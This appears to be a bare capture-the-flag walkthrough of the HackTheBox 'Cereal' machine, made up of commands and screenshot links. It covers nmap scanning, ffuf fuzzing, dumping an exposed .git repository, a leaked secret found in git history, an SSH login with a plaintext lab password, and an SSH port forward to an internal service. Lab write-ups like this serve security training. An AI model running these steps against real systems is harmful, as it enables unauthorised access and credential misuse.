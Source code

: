 ```
https://10.10.10.217/login
```
![image](https://github.com/user-attachments/assets/5c7d113c-aacd-4556-8a17-01b3ca8d87b2)

```
nmap -sS -sC -sV -T5 -Pn 10.10.10.217
```
![image](https://github.com/user-attachments/assets/063c1d25-bfd8-4859-b1f2-8d9a9bfc2927)

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u https://10.10.10.217/FUZZ -fs 1948 -e .aspx,.php,.txt,.html,.sh
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u https://cereal.htb/FUZZ -fs 1948 -e .aspx,.php,.txt,.html,.sh
```
![image](https://github.com/user-attachments/assets/6f4937eb-93eb-4c74-9195-6bb7abddaac1)

![image](https://github.com/user-attachments/assets/a6588324-e85d-4bda-a272-4515d3d54104)

```
https://source.cereal.htb/
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u https://source.cereal.htb/FUZZ -e .aspx,.php,.txt,.html,.sh
```
![image](https://github.com/user-attachments/assets/45d1d706-700a-44eb-908f-9757cf7cb270)

![image](https://github.com/user-attachments/assets/a3f6721e-9fa2-459a-a9bb-e8a2253efff4)

```
git-dumper https://source.cereal.htb/.git /home/itsec/Documents/HTB-Cereal/2
```
![image](https://github.com/user-attachments/assets/81b31c65-c0ac-4714-9e08-8287c83ae335)

```
cat UsersController.cs
cat UserService.cs
```
![image](https://github.com/user-attachments/assets/b629ff41-0599-4c81-87a3-5402448c525f)

![image](https://github.com/user-attachments/assets/9559eb56-d0a4-4154-97bd-06d8fbd7414f)

```
git log –p
secretlhfIH&FY*#oysuflkhskjfhefesf
```
![image](https://github.com/user-attachments/assets/3a125a01-fce2-4dcd-a3fb-8b7d5d431352)

![image](https://github.com/user-attachments/assets/0406c72d-9d63-45ae-bf60-9620f899015f)

```
ssh sonny@10.10.10.217
mutual.madden.manner38974
```
![image](https://github.com/user-attachments/assets/9a319608-3ec1-435b-b91b-5d46dc94256c)

```
whoami /priv
Get-ComputerInfo
```
![image](https://github.com/user-attachments/assets/803fe227-986d-4bb8-b4c5-40bb7fe2a417)


```
ssh -L 8080:127.0.0.1:8080 sonny@cereal.htb
http://localhost:8080/
```
![image](https://github.com/user-attachments/assets/4e1b7fba-30b4-4f47-89c1-f5b6d02eec86)

![image](https://github.com/user-attachments/assets/79c79330-3ca6-4eae-96bf-2811559a418c)
